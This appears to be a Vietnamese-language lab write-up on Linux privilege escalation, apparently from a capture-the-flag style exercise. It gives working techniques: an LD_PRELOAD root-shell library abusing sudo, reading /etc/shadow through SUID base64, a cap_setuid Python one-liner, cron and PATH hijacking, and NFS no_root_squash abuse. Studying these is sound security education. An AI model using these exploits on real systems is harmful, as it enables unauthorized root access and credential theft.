

# Linux Privilege Escalation

## Privilege Escalation: Kernel Exploits

- **Kernel** đã outdate và có nguy cơ bị tấn công leo thang đặc quyền
- Có 3 bước để khai thác kernel bị outdate:
    - Sử dụng câu lệnh `uname -a`  để biết được phiên bản hiện tại của **kernel**
        
        
        
    - Tìm kiếm mã khai thác **kernel** trên các nền tảng `exploit.db`, `CVE`, … liên quan đến lỗ hổng phần mềm linux
    - Chạy khai thác

## Privilege Escalation: Sudo

- Người dùng có quyền **sudo** với 1 số câu lệnh có thể nguy hại và dẫn đến leo thang đặc quyền
- Kiểm tra quyền **sudo** của người dùng với câu lệnh `sudo -l`
    - Trong trường hợp này, người dùng **karen** có 3 quyền **sudo** mà không cần nhập mật khẩu là `find`, `less` và `nano`
        
        
        
    - Với quyền `sudo nano` , karen có thể xem và chỉnh sửa bất cứ file nào trên hệ thống - điều này là hết sức nguy hiểm và có thể dẫn đến leo thang đặc quyền lên `root`
        
        
        
    - Đoạn mã giúp leo thang đặc quyền lên `root` với quyền `sudo nano`
        
        ```c
        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>
        
        void _init() {
        	unsetenv("LD_PRELOAD");
        	setgid(0);
        	setuid(0);
        	system("/bin/bash");
        }
        ```
        
        → Loại bỏ `LD_PRELOAD` 
        
        → Thay đổi **ID người dùng (UID)** và **ID nhóm (GID)** (**`setgid(0)`** và **`setuid(0)`**) của chương trình thành **0**, tức là **root** 
        
        → Thực thi lệnh hệ thống, ở đây là mở một shell Bash (`/bin/bash`)
        
    - Biên dịch mã nguồn thành một thư viện chia sẻ có tên là `shell.so`
        
        ```bash
        gcc -fPIC -shared -o shell.so shell.c -nostartfiles
        ```
        
    - Chạy lệnh với biến môi trường với đường dẫn tới thư viện chia sẻ
        
        ```bash
        sudo LD_PRELOAD=/home/user/ldpreload/shell.so find  
        ```
        
    - Quyền `sudo find` được sử dụng để tìm kiếm các tệp trong hệ thống
        
        
        

## Privilege Escalation: SUID

- **SUID** là một bit đặc biệt trong quyền truy cập của tệp. Khi bit này được thiết lập cho một tệp thực thi, người dùng thực thi tệp đó sẽ có quyền của người sở hữu tệp (thường là **root**), thay vì quyền của người dùng đang chạy lệnh
- Nếu chạy 1  tệp với **SUID** cũng tương đương như chạy tệp đó với tư cách là người sở hữu tệp. 
Điều này có thể dẫn đến việc **leo thang đặc quyền** nếu tệp đó được sở hữu bởi **root**.
- Tìm các tệp có bit **SUID**
    - Sử dụng `find / -type f -perm -04000 -ls 2>/dev/null`
        
        
        
        → `/` Tìm tất cả các tệp có loại `-type f` file
        
        → Các tệp có `-perm -04000` tức là bit **SUID** hoặc **SGID**
        
- Lợi dụng **SUID** để leo thang đặc quyền
    - Đọc tệp `/etc/shadow`  để dò mật khẩu
        
        
        
        → Thông qua câu lệnh `find` vừa liệt kê các tệp có bit **SUID**, trong đó có **base64**
        
        
        
        → Tiến hành khai thác leo thang đặc quyền
        
        ```bash
        LFILE=/etc/shadow
        base64 "$LFILE" | base64 --decode
        ```
        
        
        
        → Câu lệnh giúp đọc nội dung của tệp lưu trong biến `LFILE` (trong trường hợp này là `/etc/shadow`) và mã hóa nó dưới dạng `base64`
        
        → Cơ chế ống lệnh (pipeline) sẽ giúp giải mã `base64` 
        

## Privilege Escalation: Capabilities

- **Linux Capabilities** là một tính năng cho phép một phần quyền hạn của người dùng **root** (UID 0) được phân tách thành các quyền cụ thể, thay vì trao toàn bộ đặc quyền của **root**. Ví dụ, các quyền như mở cổng mạng, thay đổi thời gian hệ thống, hoặc thực thi raw sockets có thể được gán độc lập.
- Kiểm tra **capabilities**
    - Sử dụng câu lệnh `getcap -r / 2>/dev/null` để liệt kê tất cả các tệp trên hệ thống có gán **capabilities** mà không hiển thị lỗi
        
        
        
        → Tệp `/home/karen/vim` và `/home/ubuntu/view`  có gán **capabilities ,** với khả năng **cap_setuid** (thay đổi UID của tiến trình. Điều này có thể dẫn tới leo thang đặc quyền lên `root` 
        
- Khai thác leo thang đặc quyền với **capabilities**
    - Tệp `/home/ubuntu/view` đã có đặc quyền **capabilities**, ****do vậy sẽ khai thác từ đó
        
        
        
        ```bash
        /home/ubuntu/view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
        ```
        
        → `os.setuid(0)`  Thay đổi UID của tiến trình thành **0** (UID của người dùng **root**). 
        
        → `os.execl("/bin/sh", "sh", "-c", "reset; exec sh")` Giúp thay thế tiến trình hiện tại bằng một phiên shell tương tác (sh), cung cấp quyền root cho người dùng.
        
        → `reset` và `exec sh` sẽ giúp khởi chạy 1 shell mới
        
        
        

## Privilege Escalation: Cron Jobs

- **Cron jobs** là công cụ trên Linux để chạy các script hoặc chương trình nhị phân vào những thời điểm cụ thể.
- Mặc định, cron job chạy với quyền của **chủ sở hữu** script, không phải người dùng hiện tại.
- Khi được cấu hình đúng cách, cron job không dễ bị tấn công, nhưng trong một số trường hợp, nó có thể trở thành vector **leo thang đặc quyền**
- Lợi dụng Cron Jobs để leo thang đặc quyền
    - Nếu có một cron job chạy với quyền **root**, nhưng script của cron job này lại có thể bị chỉnh sửa bởi người dùng không có quyền root, thì kẻ tấn công có thể sửa đổi script để thực thi mã độc.
    - Mã độc (payload) có thể là một **reverse shell** hoặc một lệnh nào đó để giành quyền kiểm soát hệ thống với quyền root.
    - Xem **crontab** bằng lệnh `cat /etc/crontab`
        
        
        
        → Có một số tệp có khả năng bị khai thác như 
        
        ```
        * * * * *  root /antivirus.sh
        * * * * *  root antivirus.sh
        * * * * *  root /home/karen/backup.sh
        * * * * *  root /tmp/test.py
        ```
        
    - Chỉnh sửa 1 chút ở tệp `/home/karen/backup.sh`
        
        
        
        → Chỉnh sửa để tệp này thực thi 1 revershell
        
        
        
    - Mở trình **revershell**
        
        
        
    - Thực thi file `./backup.sh` và bắt đầu khai thác trên máy **Attacker**
        
        
        
        
        

## Privilege Escalation: PATH

- `PATH` là một biến môi trường trong Linux, chỉ định danh sách các thư mục mà hệ điều hành sẽ tìm kiếm các lệnh thực thi nếu chúng không được gọi bằng đường dẫn tuyệt đối.
- Kịch bản leo thang đặc quyền
    - Một script (được gọi là `path`) cố gắng chạy một chương trình tên là `thm` mà không sử dụng đường dẫn tuyệt đối.
        
        
        
        → Setup biến `$PATH` 
        
        ```bash
        export PATH=/tmp:$PATH
        ```
        
        → Đặt `/tmp` lên đầu trong biến môi trường `$PATH` để khi chạy bất kỳ lệnh nào (ví dụ: `thm`), hệ thống sẽ tìm kiếm file thực thi trong thư mục `/tmp` **trước tiên**, rồi sau đó mới tìm trong các thư mục khác trong `$PATH` như `/bin`, `/usr/bin`,...
        
    - Tạo một file thực thi trong `/tmp` và cấp quyền **777** (đọc, ghi, thực thi) cho nó. Nội dung file
        
        ```bash
        /bin/bash
        ```
        
        
        
        → Khi thực thi, nó mở một shell bash. Tuy nhiên, shell này chạy với quyền `root`, cho phép thực hiện bất kỳ lệnh nào với đặc quyền cao nhất.
        
    - Sau đó chạy file tại `/home/murdoch` hay bất cứ đâu, chương trình sẽ thực thi tại `/tmp` trước
        
        
        

## Privilege Escalation: NFS

- **NFS (Network File Sharing)** là một giao thức cho phép chia sẻ file qua mạng giữa các hệ thống.
- File cấu hình của NFS nằm ở đường dẫn `/etc/exports`. File này được tạo ra trong quá trình cài đặt NFS server và thường có thể được đọc bởi người dùng
- **Điểm yếu quan trọng:** Nếu tùy chọn `no_root_squash` được cấu hình trên một thư mục chia sẻ và thư mục này có quyền ghi (writable), ta có thể lợi dụng nó để leo thang đặc quyền.
- Cơ chế mặc định của NFS
    - Mặc định, NFS sẽ chuyển tài khoản **root** thành **nfsnobody** khi truy cập vào file qua NFS. Điều này ngăn chặn việc sử dụng đặc quyền **root** trên hệ thống NFS
    - Tuy nhiên, nếu tùy chọn `no_root_squash` được bật, người dùng root trên máy client sẽ **giữ nguyên đặc quyền root** trên máy NFS server khi truy cập.
- Quy trình khai thác
    - Xem
        
        
        
    - Liệt kê các thư mục chia sẻ
        
        ```bash
        showmount -e IP_ĐÍCH
        ```
        
        
        
        → có 3 thư mục chia sẻ là `/home/ubuntu/sharefolder` , `/tmp` và `/home/backup`
        
    - Gắn kết (mount) thư mục chia sẻ: Khi tìm thấy một thư mục chia sẻ có tùy chọn `no_root_squash` và có quyền ghi, ta có thể gắn kết thư mục đó vào máy tấn công
        
        
        
    - Tạo một file khai thác trên thư mục share
        
        
        
        → Thực thi và cấp quyền cho file
        
        
        
    - Trên máy đích, chỉ cần thực thi file `code` là đã có thể leo thang đặc quyền lên `root`
        
        